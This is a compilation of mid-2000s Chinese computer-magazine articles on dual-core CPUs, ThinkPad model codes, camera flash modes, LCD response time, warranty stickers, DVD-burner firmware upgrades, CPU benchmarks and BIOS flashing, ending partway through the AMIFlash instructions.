图3就是Intel的三种双核心处理器结构示意图，左方和中间的两种结构都是把两块核心做到一片芯片上，两者的区别是最左方的结构表示两块核心有各自独立的前端总线和缓存结构，代表型号是Smithfield和Yonah；中间的结构表示两块核心有共同的前端总线和共用的缓存，由CPU内部进行资源分配，代表型号是Montecito。右方的结构则代表在同一块CPU基板上集成两块独立的CPU核心，有各自独立的前端总线和缓存结构，这其实就相当于将左方的结构中的双核心分割为两个单核心，然后安装在CPU基板上，代表型号是Presler和Dempsey。

无论CPU采用哪一种双核心结构，要合理分配两个核心获得的资源，首先操作系统必须要有支持多处理器能力，对现在的用户来说，主流的Windows XP操作系统都能识别双处理器，在这方面没有太大问题。而某些Intel双核心处理器的每个核心还支持超线程技术，这样在系统中就会识别出4个逻辑处理器，而大家常用的Windows XP专业版和家庭版都只支持双处理器，不能支持4个逻辑处理器，而这样的处理器更适用于服务器级操作系统。除了操作系统要支持多处理器外，使用的应用软件同样需要支持多处理器，才能同时向CPU的两个独立核心分别发出指令，这样相比单核心处理器就会大大提升工作效率。如果应用程序只支持单核心处理器，运行程序时只会应用到一个核心，另一个核心就会闲置，这种情况下应用程序的效率并不会明显提高，不过这时我们如果再启动另一个不支持多核心的应用软件，支持多处理器的操作系统(如Windows XP)会自动分配新任务到闲置的处理器核心中，这样两个独立程序都在CPU中全速运行，也相当于极大提升了效率。

因此，我们有理由相信，在双核心处理器普及的初期，由于大量常用软件还都是基于单核心处理器设计，我们最初并不能感受到双核心处理器的明显优势，而随着双核心处理器的普及，软件设计也会向双核心倾斜，届时，普通用户也会明显感受到双核心CPU的优势。而对服务器工作站等需要高性能的处理能力的场合，相关的软件已经相当成熟，这些应用环境会马上体会到双核心的优势。在实际性能表现中，双核心处理器虽然核心处理能力是同级别单核心处理器的一倍，但受限于其他配件以及数据总线的传输率，实际性能提升将在50%~70%左右。

## 双剑出鞘，谁来接招

尽管双核心处理器看起来如此美好，但在实际推广中，无论用户还是相关厂商都会面临不小的麻烦。以即将上市的Smithfield双核心处理器为例，除了刚上市的天价会让用户望而却步外，此CPU功耗将达到130W，普通的ATX结构很难满足散热要求，BTX构架成为必需品；Smithfield巨大的功耗也使用户必须使用新一代ATX 12V 2.0版本电源；除此以外，Intel还推出了专为Smithfield准备的945/955系列新一代芯片组，换CPU又需要更换主板了……这些都说明，想要体验新一代处理器技术，必须又一次向厂商交纳不菲的费用。

## IBM ThinkPad 笔记本电脑型号解密

品牌:IBM ThinkPad就不用笔者多做解释了吧。

机型:是采用同一设计、同一模具、同一外形的一类机型的总称，例如T23、T30、T40、T41、X30、X31、X40、R40e、R40、R50等等。前面的T、X、R是指系列，也就是采用同一设计理念或者同样目标客户的一类机型的总称，例如:T系列是商用机型、X系列是轻薄机型、R系列是家用机型。每一种机型还有对应的机型代码，例如T23对应2647，X31对应2672，R50对应1829，R40对应2681，R40e对应2684，T40和T41对应的2373等等。只要机型代码不同，就表明采取了不同的设计以及不同的外形模具。不过也有例外，例如T40和T41的机型代码都是2373，因为T40和T41的设计、外形、模具、重量都完全一样，机器内部的主板板型、外部端口位置也完全相同。

配置代码:是对应特定硬件、软件配置的某一特定型号，每一个配置型号都由两个字符组成(最后一位是销售区域国别缩写)。一般来说，前两个说明了对应不同配置的型号名称，例如T40 14x/12x/19x/72x/7Cx/82x/8Cx/92x/G1x、T41 1Hx/1Fx/3Fx/7Fx/7Kx/9Fx/GEx、X31 B3x/BCx/C3x/CBx/G3x/GCx/N3x/NCx等等。每个机型都有数十种乃至于上百种配置型号，代表不同的硬件配置、键盘语言、预装操作系统的区别。例如T23 LU5和LU7，前者预装Win2000英文专业版，后者预装Win2000英文家庭版，其余完全一样，还有X31 B3H和B2H也是只存在这个区别。

销售区域缩写:(刚才型号中用x代替的)则说明了对应的销售区域国别或地区的缩写，例如销往内地是C，销往中国香港是H和B(繁体键盘)，销往新加坡是A，销往北美是U，销往日本是J，大多数区域都有一个字母的缩写相对应。在对应的销售区域销售的对应后缀的机器，属于该地区的行货，否则就是该地区的水货。例如，IBM ThinkPad R50 53C就属于内地行货，在IBM ThinkPad T40 7CH属于香港行货，IBM ThinkPad T40 7CH拿到内地销售就属于水货。可见，行货和水货的概念是取决于本应销售的区域和实际销售的区域是否有区别。

不过，有些机型并不是以字母结尾，例如T23 LU5/LU7、T40 HH1/HH2，将销售区域缩写和配置型号中的第二个字母对换了位置，比如LU5的配置型号应该是L5，销售区域缩写是U，而HH1的配置型号则是H1，销售区域缩写是H。

## 玩转DC闪光模式

在数码相机的闪光模式中，除了自动闪光外，还有如图1的图标所示的几种闪光模式。从左到右分别强制闪光，消除红眼闪光，慢速同步闪光，除此以外还有高档相机常见的后帘同步闪光。许多初学摄影的朋友在面对自己相机中众多的闪光模式时有些茫然，不知道选择什么闪光模式好。其实正确的利用这些闪光模式可以让您的照片增色不少。

先说说强制闪光，这是最常用的一种闪光模式。在低照明条件的环境下，闪光灯的闪烁将超越外界光线，成为主要光源，补充光线的不足。一般用于室内人像，景物的拍摄。而且在暗处用微距模式时，强制闪光可以很好的突出主体，压暗背景(见图2)。强制闪光的另一个用途就是在室外阳光强烈或者逆光时，可以有效地减轻面部难看的阴影(见图3)。

消除红眼闪光模式也是很常用的一种闪光模式。红眼现象就是在夜间拍照时，相片中人眼瞳孔成为红色。为什么会产生红眼现象呢？因为在黑暗环境中，人眼的瞳孔会扩大来适应黑暗，这时如果用强制闪光来拍摄，由于瞳孔来不及收缩。光线会通过瞳孔将视网膜的红色反射出来，造成红眼现象。而消除红眼闪光模式则可以有效地解决这个问题。

## 细说LCD响应时间

16毫秒只是开始——需要更快的响应时间

在图1中，tr(译为上升时间)表示液晶材料在施加电压后透光性由90%减少到10%的时间，tf(译为下降时间)表示去掉电压后液晶材料透光性从10%增加到90%的时间。我们所说的响应时间就是上升时间加下降时间的总时间。从画面刷新速度来说，每秒60帧的流畅画面需要基本的16ms的响应时间，那么是不是16ms的响应时间就足够了呢？

以16毫秒响应时间LCD为例，这种显示器的上升时间为5毫秒，下降时间为11毫秒。那么我们想象一种极端状态：以16毫秒为一个周期向LCD显示器输出黑白相间的图像信号，就是让LCD显示器用16毫秒时间显示纯白图像，再用16毫秒显示纯黑图像。那么实际显示过程是什么样的呢？假设首先画面是纯白图像，液晶透光性为90%，16毫秒后，LCD显示器收到需要转变为黑色图像的信息，LCD花5毫秒时间将液晶透光性减少到10%，然后画面才显示出黑色。持续了11毫秒的黑色之后（5毫秒加11毫秒就是16毫秒，一个周期），画面又需要显示为白色，液晶材料就需要花费11毫秒的下降时间才能将透光性10%的黑色变为透光性90%的白色。显示白色5毫秒后（11毫秒加5毫秒为16毫秒的一个周期），液晶又转变为黑色。这个过程如图2所示。

灰阶响应，更有实用价值的响应时间

在LCD响应时间已经被广泛接受，用户都希望选择响应时间更短的LCD显示器后，现在不少厂商又在推广灰阶响应时间的概念，灰阶响应时间又是什么呢？

LCD同CRT一样，屏幕上的每一个像素点都是由红、绿、蓝(RGB)三个子像素组成的。每一个子像素通过背后强度不等的光源照射，显示颜色单一色彩子像素的亮度等级，三个子像素就合成不同颜色。而光源的强度则是通过液晶分子的透光性决定的，灰阶就是光源由最暗到最亮之间不同亮度的层次级别，也就是液晶分子由透光度最低到最高的等级划分。灰阶划分的越多，所能够呈现的画面效果也就越细腻。以8 bit panel(8位色面板)为例，能表现2的8次方，等于256个亮度层次，我们就称之为256灰阶。

我们从前文的图1中看到的液晶响应时间相当于是灰阶从0到255的变换时间，也就是业界通行的以液晶分子“黑一白一黑”转换速度作为面板整体响应时间，又称为“on/off”响应时间。而另一方面，液晶分子转换速度及扭转角度由施加电压的大小来决定。从全黑到全白液晶分子面临最大的扭转角度，需施以较大的电压，此时液晶分子扭转速度较快；而介于全黑、全白间的小幅度灰阶变化，虽然液晶分子扭转角度更小，但需施加较小电压来进行准确而精细的角度控制，因此受电压影响，液晶分子扭转速度有时反而要慢一些。因此一些黑白间的响应时间相当快的LCD显示器，在灰阶之转换时反而要比黑白间的响应时间更慢，因此为了更准确反映LCD的响应速度，一些厂家又重新提出了灰阶响应时间(GTG，gray to gray)这个被遗忘了一段时间的概念。一般我们说灰阶响应时间实际说的是“最大灰阶响应时间”，就是液晶分子在两个不同透光状态(即不同灰阶)之间转换的最长时间。

面对这样的情况，LCD厂商通过改进液晶面板的液晶材料以及控制液晶材料透光度的驱动电压的控制精度和速度，让液晶单元转动更快，大为缩短灰阶转换的响应时间，这样很好地消除了液晶显示器中的拖影现象，让LCD更接近CRT的显示效果。可以说灰阶快响应时间是LCD发展的一个趋势。现在能买到的灰阶快响应时间显示器主要有优派19英寸灰阶4毫秒LCD显示器VX924、明基灰阶5毫秒17英寸LCD显示器FP71V+、明基灰阶6毫秒19英寸LCD显示器FP91V+等。

## 质保：认签不认人

相信很多读者在购买电脑产品时，都会看到商家会在的硬件上贴一张易碎纸的质保签，上面记录着购买日期(见图1)。也许很多读者平时只在乎商家的信誉和产品的质量和价格，而忽略质保签。实际上，按照IT业内默认的规则，质保签是能不能保修的关键。业内人士都戏说“中关村认签，不认人”，可见质保签的重要性。

质保签记录着商家出货的时间，是商家保修的时间依据。可能当时你并没发现有什么作用，当你的硬件真的发生问题时，去找商家保修，商家需要通过质保签上记载的日期进行保修。

如果是购买配件类产品，在质保期内凭着质保签，商家一般都会给你保修。当然，这当中也有例外。有些商家，还要求你出示购买时开具的收据。所以，在购买时必须开具收据，收据上还必须详细注明商品商标及型号、销售日期、销售者印章(或质保章)、金额、保换期及保修期等内容(见图2)。至于开不开发票，这当中存在一些误区，除非你是要报销的，对于个人来说，开不开发票是无所谓的。当然，开票的话肯定得多交4.67%的税(一般电脑城内，在国税局专门设立的“市场代开发票处”可以开票)，例如购买赛扬2.4GHz时花了560元，如果开票的话就要多交26.15元的税。另外，如果在质保期内商家倒闭或其他因素让你无法找到此商家时，你可以直接找总代理或厂商保修。此时你必须注意有些代理商还会贴一张总代理商的质保签或防伪标签(见图3)。

如果你购买的是数码产品、笔记本电脑、品牌电脑等大件产品，除了保修签、收据是必须要有的，还要有正式发票和经销商盖章并填写的保修卡。这里也要提醒大家，如果你是购买水货产品，就没必要开具正式发票，完全没意义。

### 质保签不这么简单

质保签上最重要的应该是记录的日期和商家的名称，如果日期给你写提前几天，甚至几个月，那后果就是造成你提前终止保修。还有我们不能只看商家的日期，因为现在许多硬件都是他们找代理提的货。所以看清代理的出货日期是非常重要的，因为以后我们质保的日期是以这个开始时间计算的。

上面已经提到大多商家的货都是在代理商那里拿的，不管是总代理还是多层代理他们的厂家只有一个。为以后质保着想，所以尽可能不购买多层代理的，因为这样会很麻烦。区分代理上的层次很简单，只要你看硬件上贴的质保签的多少就可以了，贴得越多代理层越多。

质保签的重要我们已经清楚，所以我们在日常保养爱机时一定要小心，千万别把质保签弄破了。举一个例子：记者一个朋友就是因为买了一块硬盘，用不到两个月就有坏道，退回厂家保修，厂家却不给保修。虽然硬盘一点磨损也没有，可厂家说保修签有皱纹而拒绝保修。

（本刊记者 王寒晖）

## Firmware 升级就这么简单

相信很多朋友在使用DVD光驱或刻录机的时候，都曾遇到挑盘、刻录速度与盘片标称不符、刻录品质不佳、误码率高等问题。

究其原因，DVD刻录机上市时间不长、市场竞争激烈、各家DVD盘片所采用的染料成分不同、DVD盘片规格标准不一等都脱不了干系。正是这些原因造成了设备在刻录或读取一张DVD盘片时，无法从Firmware(固件)中找到与盘片的media Code/Manufacturer ID(盘片信息/制造商)等信息相对应的数据来准确设定自身的工作状态，从而导致了前面的那些兼容性和刻录品质不佳的问题。那怎么解决这些问题，让设备的工作状态更好些呢？方法有很多，但通过升级DVD刻录机(光驱)的Firmware来改善设备的工作状态，是最简单直接，而且效果又是最好的方法。那Firmware的升级是怎么一回事？需要什么工具，又是怎么操作的呢？下面笔者就为大家一一道来。

### 升级Firmware的方法

升级Firmware常用的有三种方法：

- 1. 通过厂商所提供的在线升级工具，在线升级；
- 2. 通过升级包，在Windows系统中手动升级；
- 3. 在DOS系统中通过指令操作进行升级。

这三种升级方法中，最难的是在DOS下用指令进行升级操作，不但需要操作者熟记一堆命令，还要求操作者熟悉DOS系统及具备一定的电脑知识。相对来说，在Windows系统下采用相应的在线升级工具，在线进行Firmware升级的方法是最简单、最方便的。在此笔者就以BTC(英群)4X DVD刻录机为例，向大家介绍其中最简单的在线升级Firmware。

### 在线升级Firmware

在升级之前，我们可以先用Nero Infotool检查一下设备当前的属性。如图1，我们可以得知当前Firmware的版本、所支持的碟片规格及缓存大小、区位码设置等信息。这些信息将可以用来进行升级前后对比，帮助我们确定Firmware文件的版本差异。检查完成之后，就可以开始进行Firmware的升级了。

注意：既然是在线升级，所以在整个升级的过程当中，电脑都必须保持与网络连接的状态，网速越快，对升级越有利。

步骤一：对于BTC(包括由其OEM的摩西和台电等品牌的DVD刻录机)，我们可以到相关网站上下载到最新版本的Liveupdate在线升级程序，这里笔者采用的是1.01版的Liveupdate升级程序。

步骤二：安装并运行软件，单击“Check updates”按钮，检查当前DVD刻录机的Firmware是否需要更新。如图2所示，升级程序检测到这台DVD刻录机所使用的是0051版的Firmware，并通过网络发现有最新的0151版Firmware可以更新。勾选“DVD RW-IDE1004”并单击“Update Selected Device”按钮，确认这次从0051升级到0151版的操作。

步骤三：如图3所示，在确认升级操作之后，Liveupdate会调用MTK公司的IDE Flash写入程序，程序会检测DVD刻录机的Firmware芯片(如果写入程序无法识别这台机器的闪存芯片类型，它将会自动退出，以免造成误刷)。确定该Firmware文件可用在这台刻录机上后，单击“Upgrade”按钮，开始升级。

步骤四：IDE Flash写入程序会再次弹出一个警告窗口，如图4。提示我们在升级Firmware的过程中，不要运行其他程序以免造成升级失败。单击“OK”按钮开始进行Firmware文件升级、写入操作，如图5。整个升级过程耗时大约4分钟左右，完成之后，单击“OK”按钮即可。

击“Close”按钮即可。

**步骤五**：在Firmware升级完成之后，这台刻录机会失去响应，同时机箱面板上的硬盘灯会一直亮。这时大家不要慌，在重新启动操作系统之后，刻录机就可以正常使用了。

### 升级Firmware之后

当升级完成之后，我们可以用Nero Infotool对这台DVD刻录机进行检测。对比升级前后的结果，我们可以看到在Firmware升级之后，DVD Features中的Region一项由RPC-II变成了RPC-I，同时Changes Left也由5次变成了“n/a”，也就是说这台DVD刻录机已经摆脱了DVD区位码限制，变成一台全区码的DVD刻录机，如图6。

随后，笔者又对盘片的兼容性和刻录速度进行了测试。一般来说，在改善了设备的兼容性之后，其稳定性、刻录品质等方面都会有较为明显的提升。图7，之前仅能以2X速度进行刻录的Antar(安达)4X DVD-R盘片在刻录机升级Firmware后，就可以用4X的刻录速度进行超刻，刻录总容量达4.3G的电影共花了13分钟左右，比升级前快了整整一倍。

说到这里，Firmware的在线升级就算是全部完成了，只要测试成功，大家就可以放心地使用，并等待下一次的Firmware版本更新了。

#### 火速链接

Firmware刷新工具和Firmware网络资源介绍：
http://tdb.rpc1.org 该网站提供大量的各种品牌和型号的DVD光驱、DVD刻录机的RPC-I Firmware文件、刷新工具下载。
http://www.drvupdate.com 在线升级固件站点，就是Liveupdate的老家。
http://www.mydrivers.com/cgi-bin/cdrom/ 国内著名的驱动之家网站，在这个页面里你可以找到很多及时且较为齐全的升级文件和工具。

**著名厂商固件下载网址：**
AOPEN建基：http://download.aopen.com.tw/default.aspx?WebSite=CN
Plextor浦科特：http://www.plextor.com/english/support/support_downloads.html#firm
台电：http://www.tecast.com/topic.php?channelID=69&topicID=141
摩西：http://www.moses.net.cn/
华旗-爱国者：http://www.aigo.com/fwzx/index.asp?id=10
明基：http://service.benq.com.cn/DriverDown/DriverOne.aspx?ProductTypeID=52

**DVD Firmware刷新美文：**
《DVD-ROM固件的刷新》(http://www.chip-china.com/1006.php?sid=485)文章针对在DOS系统下，DVD-ROM的固件升级操作进行了非常详尽的介绍。
《本本光驱有缺陷？升级固件来解决》(http://www.e800.com.cn/articles/19/1091788009771.html)文章讲述的是如何用升级固件的方式解决笔记本电脑光驱的缺陷。
《NEC 12X DVD破解全攻略》(http://www.edisc.com.cn/bike/viewnews.html?id=623)，这是一篇针对破解DVD区码更改限制的文章，以NEC 12X DVD-ROM为例。

#### 一段危险的小插曲

据说，型号为1004IM的BTC 4X DVD刻录机与型号为1008IM的BTC 8X DVD刻录机的部件及内部电路是一样的，唯一的不同是采用了不同版本的Firmware，可以通过刷新1008IM(8X)的Firmware来实现4X向8X的飞越。要成功了，这可是天上掉下的大馅饼。于是，笔者在DOS系统下，用MTKFlash写入程序，升级了一个号称可以将4X变成8X的1008IM 0256版Firmware。可惜在完成Firmware升级后，重启时无法通过硬件自检，升级失败。没有办法，只好关机、拔掉DVD刻录机的数据线，上网下载了一个0151版的DOS Firmware文件，解压后，置于硬盘根目录下。重启进入DOS，在机器已经加电的情况下，将DVD刻录机的数据线重新接上，如图8，使用MTKFlash写入程序将Firmware恢复。

```
C:\>mtkflash 3 w /m\t rpc1v256.bin
MTKFLASH By Joseph Lin (Ver 1.88.1)
Flash Type : MXIC(MX29LV008B)(+3.3V)
Updating....Finished!(D000)
>>> Please REBOOT your PC !
C:\>
```

#### 你知道吗

Firmware是控制各级电路和光头组件正常工作的重要程序，在它的指挥下，DVD刻录机的各个部件才能协调运作。可以说，Firmware是DVD刻录机的大脑。

（梦幻笑容）

## 飞奔的CPU，让我看清你

### 迷乱的测试成绩如何看

我们在选择CPU之前，都需要了解这种CPU是否适合我们要求的工作。但实际使用中各种应用环境千差万别，因此大家就找出了用模拟实际使用环境的测试软件的方式测试CPU或者其他配件性能，然后进行评分，用得分来比较不同的CPU或其他配件之间性能的差别。这种测试得分是否合理呢？最早的CPU，是只会加减乘除或者数据比较等简单的运算方式，这种运算部分叫ALU（算术逻辑单元），这种CPU在面对许多复杂计算时，必须先将处理内容编译为简单的算式，然后才能计算。随着人们对电脑的要求越来越高，人们觉得这种计算方式的效率太低，转而专门开发出处理这种复杂运算的处理单元，称为FPU（浮点处理单元）。早期ALU与FPU是分别在不同的芯片中，包含ALU的芯片什么都能做，叫中央处理器（CPU），而包含FPU的芯片只是提高特定运算的执行效率，就只叫协处理器。而随着技术发展，新的CPU中ALU和FPU早已整合到了一起，都是CPU中的一分子了。而现在人们对电脑的图像、视频、3D应用等多媒体运算的要求不断提高，使通用浮点运算的FPU也不能完全满足需求，因此，自Intel的Pentium MMX处理器开始，处理器厂商又在CPU中专门增加了增强多媒体处理能力的部分，并提供了专门的接口调用方式，只是这些多媒体增强处理部分没有FPU单独成为一块处理器的好运气，而是直接存在于新CPU中，一代一代进化，统称为多媒体指令集。现在PC机的CPU中的多媒体指令集包括Intel的MMX/SSE/SSE2/SSE3和AMD的3DNow！系列多媒体指令集。而随着人们对数据处理要求的提高，要求CPU的处理能力从32bit升级到64bit，更方便处理大规模的数据，因此CPU也开始升级到64bit了。

由CPU的发展可以看出，看CPU的测试成绩，首先要看软件是测试的哪部分的成绩，是ALU或者FPU还是多媒体指令集，这样才能确定测试出来的分数是否是我们需要的。而一般软件测试时得到的总分都是一个加权的总分合计，这就要看加权的方式是否符合要求了。比如我们只需要了解CPU的ALU和FPU处理能力，而使用的测试软件却把多媒体指令集的得分算做重点，则这种软件测试出的成绩就不符合要求了。还要了解测试时的操作环境是否是应用时需要的环境，比如我们想知道AMD和Intel处理器的64位处理能力谁强，就必须看基于64位操作系统下的评测，而Windows XP这种32位操作系统下的测试成绩则意义不大。最后，虽然测试结果是单独的CPU成绩，但CPU也是一台电脑整体的一部分，它的测试结果也要受主板、内存等提供给它数据的设备的影响，因此在对比测试成绩时还要注意对比平台是否一致。下面，我们就来实际分析几款常用的CPU测试的软件：

### 经久耐用SuperPi

SuperPi是一款拥有很长历史的CPU测试软件，最早是数学家通过它的算法来计算圆周率，然后作者将计算位数简化，做成一个测试电脑计算指定位数圆周率所需时间的软件。由于SuperPi需要高强度使用CPU的浮点运算器，因此SuperPi最早成为测试CPU浮点运算能力和CPU稳定性的软件。当时受到CPU性能限制，计算104万位圆周率也需要好几分钟，而现在的处理器能够在一分钟内轻松计算出结果，因此现在测试时更多用800万位计算，以此来考验CPU。计算结果最后会以时间表示，时间越短表示CPU浮点性能越好。

下载地址：http://www.mydrivers.com/tools/dir0/d300.htm。

## 简单易用 SiSoft Sandra

SiSoft Sandra 是一个简单的综合测试、检测软件，每年都会推出新版本。SiSoft Sandra 的 CPU Arithmetic Benchmark 和 CPU Multi-Media Benchmark 两项就是专门测试 CPU 性能的，前者测试 CPU 的基本 ALU 和 FPU 处理能力，后者测试 CPU 的多媒体处理能力，测试结果会以分数表现出来，并可在表格中直接选择其他 CPU 进行对比。测试中有可能会发现，测试的处理器在第一项中与对比的处理器性能不相上下，但进行多媒体测试时差别就很大，这就是因为测试处理器的多媒体指令集有区别，因此在多媒体性能中就表现出了差别。

要获得 SiSoft Sandra 中 CPU 的测试成绩，首先启动 SiSoft Sandra，然后在程序窗口中双击 SiSoft Sandra 的 CPU Arithmetic Benchmark 图标，就会弹出如图 2 左边方的窗口，然后点击窗口下方的蓝色双箭头图标，稍等片刻，CPU 的性能就会以柱状图显示在窗口上。然后在 Reference CPU 的下拉菜单中选择对比的 CPU 型号，就能对自己 CPU 的性能一目了然了。测试 CPU 的多媒体计算能力也是同样的方法。

2005 版本下载地址：http://www.mydrivers.com/tools/dir17/d7052.htm。

## 清晰好用 PCMark2004

PCMark2004 是一套整机性能测试软件，在注册后能单独测试 CPU 内存硬盘等配件的独立性能，其中 CPU 测试时，会模拟出 CPU 实际运行多媒体、音频视频编码解码、文件处理等使用环境时状态，最后给出测试总分和单独每种工作状态的得分，这样就能比较出 CPU 在实际应用时的性能，而不是单纯的理论性能。

使用前首先确定 PCMark2004 已经是注册版本，然后点击软件中 Test 栏下面的 Select 按键，在弹出窗口中勾选 CPU Test Suite 的选项，并去掉 System Test Suite 前面的勾，这样就只测试 CPU 性能了。确定后点击主界面的 Run PCMark 按键，稍等片刻后测试就会结束，然后点击新弹出窗口中的 Detail 按键，在新窗口中点击 Results 按键，然后点击其中的 CPU Test Suite 按键，在窗口中就会显示 CPU 测试的细节数据，这里的测试结果表示的是当前 CPU 在进行某项工作时候的 CPU 吞吐数据量，这些数据当然是越大越好。

原始版下载地址：http://www.mydrivers.com/tools/dir13/d5289.htm，升级补丁地址：http://www.mydrivers.com/tools/dir17/d7057.htm。

（房顶兽）

## 硬派讲堂之刷新主板 BIOS

编者按：成为一名“硬件高手”是很多 CFan 读者的愿望吧？为此，我们特别推出了《硬派讲堂》这个初学硬件的系列文章。在这个系列当中，我们将立足于读者需求，摒弃以往的大篇幅枯燥理论知识的讲解，最大限度地立足于应用，通过一个个硬件应用实例，为大家建立一个全面的硬件知识学习计划，让大家能最快地成长起来。如果大家有什么特别想知道的，可以来信、E-mail 告诉我们，CFan 一定会竭尽全力，做到最好！好了，一切就绪，让我们现在就开始今天的学习之旅吧。

弈秋，通国之善弈者也。使弈秋诲二人弈，其一人专心致志，惟弈秋之为听；一人虽听之，一心以为鸿鹄将至，思援弓缴而射之。虽与之俱学，弗若之矣。为是其智弗若与？曰：“非然也。”

啪嗒、啪嗒、啪嗒，随着越来越近的拖鞋声，喧闹的茶座里安静了下来，因为谁都知道这是“硬派讲堂”主讲一贯的脚步声。什么？我是谁？哎呀！这么半天光惦记向大家描述我那“威武”的脚步声了，（一阵烂西红柿）哎呦、哎呦，别扔了、别扔了，给点面子好不好，待会儿请你们喝“乌窝咖啡”^_^。我还是先自我介绍一下吧！我叫“天唯”，受老编的指派和小编的委托，来担任“硬派讲堂”的主讲，还希望大家以后多多关照啊！虽然“硬派讲堂”今天才正式开学，但常言道：“一回生，两回熟嘛”！希望朋友们，有空常来坐坐，好了还是言归正传吧！今天我为大家准备了一个话题：“刷新主板 BIOS”，要认真听讲啊！说不定其中一个就是你平时遇到而无法解决的难题哦！

### 第一堂：刷新主板 BIOS

BIOS (Basic Input-Output System) 也就是基本输入输出系统，是计算机系统中不可缺少的组成部分之一，为计算机系统提供最基础的功能支持。也许你时常听见“老鸟”说给主板升级、刷新 BIOS。那么，为什么要刷新 BIOS，刷新 BIOS 又是怎么一回事呢？下面我们就一起来看看。

### 为什么要升级主板 BIOS

主板 BIOS 包含了开机引导代码、基础硬件驱动信息、运行参数的设置程序以及一些主板厂商针对某种使用需要而开发的一些软件，如自动备份、降温等。但 BIOS 毕竟还是一种程序，是程序就难免有 Bug，这几乎是无法避免的。升级主板 BIOS 最主要的目的就是解决这些 Bug，让主板具备更多的功能与更好的工作状态。

具体的讲，升级主板 BIOS，有以下好处：（1）修正主板设计上的缺陷，解决莫名其妙的故障。比如内存兼容性、硬盘容量支持限制等问题一般都可以通过升级 BIOS 来解决；（2）免费获得新功能。举个简单的例子来说，某品牌主板拥有“恢复精灵”、“冰心精灵”、“彩色漂亮的开机 LOGO”等特殊功能，而自己的主板如果没有的话，我们可以通过一定的手段将实现该功能的部分程序从原形中抽取出来，再“移植”到自己的主板 BIOS 上，由此来让自己的主板免费的获得自己想要的功能。

### 如何升级主板 BIOS

刷新主板 BIOS 就是升级主板 BIOS 的手段。用特殊的工具软件把主板厂商发布的 BIOS 更新程序写入主板的 Flash ROM 中的操作，就是刷新 BIOS。

- 如何了解主板的型号和 BIOS 的版本号？

要刷新主板 BIOS，我们首先确定主板的型号和 BIOS 的版本号。这些信息我们可以通过计算机的开机自检画面来了解。

**小提示**

由于 BIOS 的特殊性，不仅不同品牌的 BIOS 文件不能通用，即使是同一品牌不同型号主板之间的 BIOS 也不能通用。

启动计算机，当计算机出现自检画面时按“Pause Break”键，此时系统暂停自检，我们就能看到一幅静止的启动画面，如图 1。

图 1

这是自检画面的上半部分，显示的是主板 BIOS 的有关资料。从图中我们可以看到该主板采用了 6.00PG 的 AWARD BIOS，主板是 AOpen 的 AK77-8XN，BIOS 版本为 R1.02，2002 年 9 月 26 日更新。

同时，在开机自检画面的最下端，我们还能看到更多有用的信息。

图 2

如图 2，“09/26/2002”是该主板 BIOS 的更新时间，通过它你可以准确地判断你的主板 BIOS 的新旧。“KT400 - 8235”是主板所采用的北桥芯片和南桥芯片组合，“6A6LYAB9C”就是 AWARD BIOS-ID，其中前五位“6A6LY”是芯片组编码，第六、七位是“AB”则是厂商代码。

**小提示**

了解了这些信息之后，在正式升级 BIOS 前，我们还要根据已有的主板及 BIOS 信息，登录相应的主板厂商官方网站，下载相应的 BIOS 更新文件。同时，我们还要根据所使用的 BIOS 类型，下载其刷新工具。

- 常见主板 BIOS 研发厂商介绍

目前 BIOS 的开发商有 AWARD 和 AMI 两家。之前还有一家 Phoenix，后来被 AWARD 所合并。合并后，Phoenix 的技术被 AWARD 所消化，最终形成今日的 AWARD。

**今日霸主：Award**

Award BIOS 是从奔腾时代才开始占据市场的主导地位的，由 Award Software 公司开发的 Award BIOS 系列产品，目前十分流行，目前市场上 80% 以上的主板都采用 Award BIOS，它以功能比较齐全，对各种操作系统提供良好的支持而著称。Award BIOS 有许多版本，现在用得最多的是 6.X 版。

**刷新软件：AWDFlash**

下载地址：http://file2.mydrivers.com/bios/Awdflash8.54B.exe

**“明日黄花”：AMI**

AMI 公司出品的 AMI BIOS 系统软件，最早开发于 80 年代中期，为多数的 286 和 386 计算机系统所采用，但后来因为种种原因渐渐地没落了，因对各种软、硬件的适应性好、硬件工作可靠、系统性能较佳、操作直观方便的优点受到用户的欢迎。现在很多笔记本电脑、主板又逐渐开始采用 AMI 的 BIOS。

**刷新软件：AMIFlash**

下载地址：http://file2.mydrivers.com/bios/ami-FLASH879.zip

### 动手刷新主板 BIOS

- 用 AWDFlash 刷新 AWARD BIOS

AWDFlash 是一款只能在 DOS 系统中运行的程序，因此我们首先要用一张可启动的软盘或光盘将计算机引导入 DOS 系统。而之前下载下来的 AWDFlash 刷新软件和 BIOS 更新文件，可以复制到启动软盘或光盘当中，也可以保留在硬盘上面进行操作，这样也会更加稳定一些。在下面的例子当中，我将会把 AWDFlash 刷新软件和 BIOS 更新文件放在 D 盘的根目录下面，并用 Win98 启动盘开机进入 DOS 系统。

- （1）备份原有 BIOS 文件

在开始刷新之前，我们首先要将主板原有的 BIOS 进行备份，以备不时之需。

步骤一：开机进入 DOS 系统后，进入 D 盘，运行 AWDFlash。在 File Name to Program 栏中不要输入任何字符，按回车和“Y”对当前 BIOS 进行备份，如图3。

步骤二：在 File Name to Save 栏中输入文件名——MIBIOS.bin，如图4。程序就会将当前主板所使用的 BIOS 备份成为一个名为 MIBIOS.bin 的文件并自动退出该程序。跟着我们就能在存放 AWDFlash 程序的磁盘目录下找到刚才备份的 MIBIOS.bin 文件。确认备份成功后，就可以开始刷新 BIOS 了。

- （2）写入 BIOS 更新文件

其实在刷新过程中也是可以备份 BIOS 的，但是为了保险起见，在刷新之前我们还是要对 BIOS 进行单独备份。毕竟稳妥一些的操作对于刷新 BIOS 来说还是很重要的。

步骤一：再次执行 AWDFlash，在“File Name to Program”框中输入之前下载回来的那个 BIOS 更新文件的文件名（如 BIOS.bin）后回车。

步骤二：程序会询问是否需要备份原有 BIOS，这时选择“Y”，并在 File Name to Save 框中输入一个 BIOS 的文件名（如：BF.bin），按回车结束备份后，按“Y”开始执行刷新操作，待进度条全部走完，系统提示写入成功时，按 F1 键重启计算机后，整个 BIOS 刷新的操作就算完成了，如图5。

- AMI BIOS 的大众刷新工具——AMIFlash

AWARD BIOS 的刷新方法我们已经知道了，但还有不少用户的主板采用的是 AMI BIOS，而两者的刷新程序不是通用的，所以还要介绍一下 AMIFlash 的使用方法。

步骤一：进入纯 DOS 状态，执行 AMIFlash。该软件的主界面由 4 部分组成，从左到右依次为：主菜单、选中的当前菜单、相关信息、帮助信息，用方向键把光标移到“FILE”项，回车。

